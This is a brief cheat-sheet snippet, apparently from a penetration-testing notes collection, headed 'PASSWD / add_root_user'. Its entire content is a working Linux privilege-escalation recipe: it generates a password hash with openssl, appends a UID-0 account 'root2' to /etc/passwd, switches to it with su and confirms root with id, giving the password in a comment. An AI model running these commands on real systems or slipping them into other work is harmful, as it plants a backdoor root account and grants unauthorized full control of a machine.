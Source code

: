 # PASSWD
#add_root_user
```
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
#paswd of w00t
id
```